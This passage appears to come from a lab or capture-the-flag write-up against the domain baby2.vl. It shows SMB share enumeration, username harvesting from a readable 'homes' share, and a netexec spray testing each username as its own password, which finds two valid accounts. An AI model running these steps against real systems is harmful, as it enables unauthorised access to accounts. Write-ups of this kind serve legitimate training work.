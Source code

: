 ```bash
        ADMIN$           NO ACCESS       Remote Admin
        apps             READ ONLY
        C$               NO ACCESS       Default share
        docs             NO ACCESS
        homes            READ, WRITE
        IPC$             READ ONLY       Remote IPC
        NETLOGON         READ ONLY       Logon server share
        SYSVOL           NO ACCESS       Logon server share
```
The homes directory looks like it will give us some usernames.
Also don't trust the Permissions! Folders within the shares can be configured differently.
(Important later).

And here is the username list!
```bash
$ smbclient.py a@"$TARGET" -no-pass
Impacket for Exegol - v0.10.1.dev1+20240403.124027.3e5f85b - Copyright 2022 Fortra - forked by ThePorgs

Type help for list of commands
# use homes
# ls
drw-rw-rw-          0  Sun Oct  6 21:59:26 2024 .
drw-rw-rw-          0  Tue Aug 22 22:10:21 2023 ..
drw-rw-rw-          0  Tue Aug 22 22:18:40 2023 Amelia.Griffiths
drw-rw-rw-          0  Tue Aug 22 22:18:40 2023 Carl.Moore
drw-rw-rw-          0  Tue Aug 22 22:18:40 2023 Harry.Shaw
drw-rw-rw-          0  Tue Aug 22 22:18:40 2023 Joan.Jennings
drw-rw-rw-          0  Tue Aug 22 22:18:40 2023 Joel.Hurst
drw-rw-rw-          0  Tue Aug 22 22:18:40 2023 Kieran.Mitchell
drw-rw-rw-          0  Sat Sep  2 16:45:25 2023 library
drw-rw-rw-          0  Tue Aug 22 22:18:40 2023 Lynda.Bailey
drw-rw-rw-          0  Tue Aug 22 22:18:40 2023 Mohammed.Harris
drw-rw-rw-          0  Tue Aug 22 22:18:40 2023 Nicola.Lamb
drw-rw-rw-          0  Tue Aug 22 22:18:40 2023 Ryan.Jenkins
```
## 2. Domain user: Good old username = password
```bash
$ nxc smb "$IP" -u users.txt -p users.txt --no-bruteforce --continue-on-success
SMB     [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:baby2.vl) (signing:True) (SMBv1:False)
SMB     [-] baby2.vl\Amelia.Griffiths:Amelia.Griffiths STATUS_LOGON_FAILURE
SMB     [+] baby2.vl\Carl.Moore:Carl.Moore
SMB     [-] baby2.vl\Harry.Shaw:Harry.Shaw STATUS_LOGON_FAILURE
SMB     [-] baby2.vl\Joan.Jennings:Joan.Jennings STATUS_LOGON_FAILURE
SMB     [-] baby2.vl\Joel.Hurst:Joel.Hurst STATUS_LOGON_FAILURE
SMB     [-] baby2.vl\Kieran.Mitchell:Kieran.Mitchell STATUS_LOGON_FAILURE
SMB     [+] baby2.vl\library:library
SMB     [-] baby2.vl\Lynda.Bailey:Lynda.Bailey STATUS_LOGON_FAILURE
SMB     [-] baby2.vl\Mohammed.Harris:Mohammed.Harris STATUS_LOGON_FAILURE
SMB     [-] baby2.vl\Nicola.Lamb:Nicola.Lamb STATUS_LOGON_FAILURE
SMB     [-] baby2.vl\Ryan.Jenkins:Ryan.Jenkins STATUS_LOGON_FAILURE
```
Wow 2 users! `Carl.Moore:Carl.Moore` and `library:library`
